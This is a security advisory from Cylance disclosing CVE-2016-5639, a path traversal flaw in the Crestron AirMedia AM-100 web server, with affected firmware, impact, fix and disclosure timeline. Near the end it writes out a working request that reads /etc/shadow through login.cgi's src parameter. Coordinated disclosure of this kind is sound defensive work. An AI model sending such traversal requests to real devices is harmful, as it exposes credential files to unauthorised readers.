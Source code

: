 # [CLVA-2016-05-001]: Crestron AM-100 Path Traversal Vulnerability

# Summary

Cylance identified a vulnerability in the Crestron AirMedia AM-100, which could allow an unauthenticated entity to read arbitrary files on affected devices. The unauthenticated must be able to access the web server on the affected devices.

## Product Description

The Crestron AirMedia AM-100 allows users to "wirelessly present PowerPoint®, Excel®, Word, and PDF documents, as well as photos, on the room display from their personal iOS® or Android™ mobile device" or desktop/laptop. (via [http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations](http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations)).

## Affected Products

* Crestron AirMedia AM-100 (firmware v1.1.1.11 - v1.2.1)

## Impact

An unauthenticated entity may be able to read arbitrary files on the affected AM-100 as superuser ("root").

# Vulnerability Information

* Cylance Identifier: CLVA-2016-05-001
* CVE Identifier: CVE-2016-5639 

## Description

A path traversal vulnerability exists in `login.cgi` (and possibly other binaries in the `/home/boa/cgi-bin` directory) on the AM-100 embedded web server. The `src` GET parameter passed to `login.cgi` specifies the relative path to a file for rendering, such as `AwLoginDownload.html`. However, the value of this parameter can specify an arbitrary path on the AM-100 filesystem.

## Impact

The attacker may be able read the contents of unexpected files and expose sensitive data. Additionally, as the embedded web server runs as root, the attacker is unrestricted by filesystem permissions.

## Attack Scenario

An unauthenticated entity with access to the AM-100 embedded web server could, for example, read the system's password file, then conduct a brute force password guessing attack in order to break into an account on the system.

## Resolution

Crestron has released firmware version 1.4.0.13 to address this issue. Affected users should update the firmware of their AM-100 as soon as possible. Crestron partners can find the latest firmware at [http://www.crestron.com/products/model/AM-100](http://www.crestron.com/products/model/AM-100)

## Credit

* Zach Lanier, Director of Research, Cylance

## Additional Information
### Details for CLVA-2016-05-001

* Example of a benign/normal `GET` request for `login.cgi`:

```
GET http://[AM-100-ADDRESS]/cgi-bin/login.cgi?lang=en&src=AwLoginDownload.html HTTP/1.1
...
```

* Example of expected response:

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Wed, 26 Oct 2005 19:07:53 GMT
Server: lighttpd/1.4.35-devel-4f1e285

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="content-Type" content="text/html; charset=utf-8">
<meta http-equiv="Cache-control" content="no-cache">
<title>Crestron AirMedia</title>
...
```

* Example of malicious request for `/etc/shadow` (system's password file):

```
http://[AM-100-ADDRESS]/cgi-bin/login.cgi?lang=en&src=../../../../../../../../etc/shadow
```

* Response (password hash redacted for privacy reasons):

```
root:[HASH]:0:0:99999:7:::
```

# CLVA-2016-05-001 Timeline

* Discovery Date: 2016-05-12
* Vendor Notification Date: 2016-05-19
* CERT/CC Contact Date: 2016-05-27
* Vendor Acknowledgement Date: 2016-06-06
* Patch Release Date: 2016-08-01
* Public Disclosure Date: 2016-08-01
